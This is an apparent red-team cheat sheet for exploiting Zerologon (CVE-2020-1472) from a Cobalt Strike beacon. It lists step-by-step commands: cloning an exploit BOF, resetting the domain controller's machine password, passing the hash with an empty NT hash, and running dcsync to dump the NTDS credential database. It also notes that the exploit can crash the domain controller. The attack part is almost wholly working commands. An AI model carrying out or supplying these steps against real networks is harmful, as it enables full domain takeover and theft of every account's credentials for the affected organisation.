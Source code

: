 # Exploiting CVE-2020-1472 Zerologon in Cobalt Strike

## Clone the Repository

```
> git clone https://github.com/rsmudge/ZeroLogon-BOF
```

Include the script as usual, the destination is `ZeroLogon-BOF/dist/zerologon.cna`.

The console should show a new command - `zerologon`

Application:

Retrieve Domain name (e.g. domain.local)

```
beacon> net domain
```

Run the exploit:

```
beacon> zerologon iunderstand domain.local
```
iunderstand - stop word. By exploiting this vulnerability we reset the password. This exploit can lead to a failure of the domain controller. WE USE IT LAST.

In case of success we get:
Success! Use `pth .\\\%S 31d6cfe0d16ae931b73c59d7e0c089c0` and run `dcscync`.

Do exactly what it says.
```
beacon> pth .\\\%S 31d6cfe0d16ae931b73c59d7e0c089c0
```

And run

```
beacon> dcsync domain.local
```

If everything worked successfully, we get NTDS
